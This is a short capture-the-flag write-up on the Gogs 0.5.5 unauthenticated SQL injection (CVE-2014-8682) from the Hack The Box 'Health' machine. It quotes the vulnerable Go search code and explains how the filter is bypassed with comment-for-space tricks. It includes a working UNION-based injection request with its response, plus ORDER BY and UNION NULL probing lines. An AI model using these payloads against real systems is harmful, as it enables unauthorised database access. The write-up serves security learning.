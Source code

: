 Sql Injection @health from HTB

Vulnerable application is Gogs Git(A selft hosted git service)

App version 0.5.5 beta

Explaining vulnerability

Unauthenticated SQL Injection at
Users and repos search parameter 'q'

Endpoints
```
 /api/v1/users/search
 /api/v1/repos/search
 ```
CVE-2014-8682

Vulnerable Code Section

```go
models/user.go:
[...]
// SearchUserByName returns given number of users whose name contains
keyword.
func SearchUserByName(opt SearchOption) (us []*User, err error) {
    opt.Keyword = FilterSQLInject(opt.Keyword)
    if len(opt.Keyword) == 0 {
        return us, nil
    }
    opt.Keyword = strings.ToLower(opt.Keyword)

    us = make([]*User, 0, opt.Limit)
    err = x.Limit(opt.Limit).Where("type=0").And("lower_name like '%" +
opt.Keyword + "%'").Find(&us)
    return us, err
}
[...]
```
Reson for the Vulnerability

The vulnerability exists because of a string concatination in the SQL query with user supplied data. Because of the SQL filter at the method entry, attackers can't use spaces (0x20) and since v0.5.6.1025-g83283b commas are also filtered.

POC

Request
```
http://www.example.com/api/v1/users/search?q='/**/and/**/false)/**/union/**/
select/**/null,null,@@version,null,null,null,null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null,null/**/from
/**/mysql.db/**/where/**/('%25'%3D'
```
Response:

```json
{"data":[{"username":"5.5.40-0ubuntu0.14.04.1","avatar":
"//1.gravatar.com/avatar/"}],"ok":
```
Referance [https://www.exploit-db.com/exploits/35238](https://www.exploit-db.com/exploits/35238)

Sql injection filter bypass techniques

Reference 1 : [https://portswigger.net/web-security/sql-injection/union-attacks](https://portswigger.net/web-security/sql-injection/union-attacks)

Reference 2: [https://null-byte.wonderhowto.com/how-to/sql-injection-101-avoid-detection-bypass-defenses-0184918/](https://null-byte.wonderhowto.com/how-to/sql-injection-101-avoid-detection-bypass-defenses-0184918/
)
Reference 3: [https://programmer.ink/think/sql-injection-bypass.html](https://programmer.ink/think/sql-injection-bypass.html
)

Sql union based injection

Reference [https://crashtest-security.com/sql-injection-union/](https://crashtest-security.com/sql-injection-union/)

If order was failed then do with null injection

```
Order by 1--
UNION SELECT NULL--
UNION SELECT NULL,NULL-- 
```